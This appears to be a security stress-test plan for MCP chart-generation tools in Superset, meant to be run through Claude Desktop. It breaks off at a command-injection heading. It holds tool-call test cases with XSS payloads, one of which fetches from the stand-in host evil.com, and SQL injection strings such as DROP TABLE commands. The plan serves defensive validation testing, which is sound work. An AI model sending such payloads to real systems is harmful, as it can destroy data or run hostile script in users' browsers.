# MCP Chart Tools Stress Test Plan

This comprehensive test plan is designed to systematically break the MCP service chart tools by exploring edge cases, validation boundaries, and potential failure modes. Execute these tests in Claude Desktop to uncover weaknesses in validation, error handling, and security.

## Test Execution Instructions

1. **Environment Setup**: Ensure Superset is running and accessible
2. **Test Order**: Execute tests in the order presented for maximum coverage
3. **Error Collection**: Document all error messages and unexpected behaviors
4. **Security Focus**: Pay special attention to any security bypass scenarios

## 1. SQL Injection & XSS Attack Tests

### 1.1 Script Injection in Column Names
```json
# Test Case: XSS in column name
mcp__mcp-server__generate_chart {
  "request": {
    "dataset_id": 1,
    "config": {
      "chart_type": "table",
      "columns": [
        {"name": "<script>alert('XSS')</script>", "label": "Malicious Column"},
        {"name": "sales'; DROP TABLE users; --", "aggregate": "SUM"}
      ]
    }
  }
}

# Test Case: Script tag variations
mcp__mcp-server__generate_chart {
  "request": {
    "dataset_id": 1,
    "config": {
      "chart_type": "xy",
      "x": {"name": "<img src=x onerror=alert('XSS')>"},
      "y": [{"name": "revenue<script>fetch('http://evil.com')</script>", "aggregate": "SUM"}]
    }
  }
}
```

### 1.2 SQL Injection in Filter Values
```json
# Test Case: SQL injection in filter conditions
mcp__mcp-server__generate_chart {
  "request": {
    "dataset_id": 1,
    "config": {
      "chart_type": "table",
      "columns": [{"name": "product"}],
      "filters": [
        {"column": "category", "op": "=", "value": "'; DROP TABLE charts; --"},
        {"column": "status", "op": "=", "value": "1' OR '1'='1"}
      ]
    }
  }
}

# Test Case: Command injection attempts
```